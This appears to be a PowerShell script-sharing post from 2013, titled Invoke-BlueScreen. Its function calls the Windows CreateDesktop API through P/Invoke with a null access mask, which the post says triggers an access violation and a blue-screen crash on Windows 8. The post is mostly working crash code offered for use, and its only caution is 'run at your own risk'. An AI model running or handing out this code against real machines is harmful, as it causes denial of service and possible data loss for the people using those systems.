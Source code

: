 ﻿---
pid:            4216
parent:         0
children:       
poster:         adamdriscoll
title:          Invoke-BlueScreen
date:           2013-06-24 00:34:41
format:         posh
---

# Invoke-BlueScreen

### [download](4216.ps1)"

Causes a blue screen on Windows 8 machines. Run at your own risk!! The reason is due to an access violation caused by passing in a null value to the access mask of the CreateDesktop function. 

```posh
function Invoke-BlueScreen
{
    Add-Type "
      using System;
      using System.Runtime.InteropServices;
      public class PInvoke
      {
          [DllImport(`"user32.dll`")]
          public static extern IntPtr CreateDesktop(string desktopName, IntPtr device, IntPtr deviceMode, int flags, long accessMask, IntPtr attributes);
      }
    "

    [PInvoke]::CreateDesktop("BSOD", [IntPtr]::Zero, [IntPtr]::Zero, 0, $null, [IntPtr]::Zero)
}
```
